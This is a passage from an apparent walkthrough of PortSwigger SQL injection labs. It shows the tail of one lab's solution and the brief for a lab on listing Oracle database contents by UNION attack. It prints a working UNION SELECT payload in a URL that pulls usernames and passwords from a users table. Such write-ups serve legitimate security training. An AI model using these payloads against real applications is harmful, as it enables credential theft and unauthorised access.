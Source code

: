 Next we must show the content of the table:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
SELECT username_lvfons,password_femvin FROM users_vptjgu
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
/filter?category=Gifts'+union+all+select+username_lvfons,password_femvin+from+users_vptjgu--
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/ba0128d4fc15566efab480819bf6e210.png)

10 SQL injection attack, listing the database contents on Oracle
================================================================

This lab contains a SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response so you can
use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that
holds usernames and passwords. You need to determine the name of this table and
the columns it contains, then retrieve the contents of the table to obtain the
username and password of all users.

To solve the lab, log in as the administrator user.

Hint: On Oracle databases, every SELECT statement must specify a table to select
FROM. If your UNION SELECT attack does not query from a table, you will still
need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this
purpose. For example: UNION SELECT 'abc' FROM dual

References:

-   https://portswigger.net/web-security/sql-injection/examining-the-database

-   https://portswigger.net/web-security/sql-injection/cheat-sheet

We see there are 2 values displayed in the table, the description and the
content of the post:
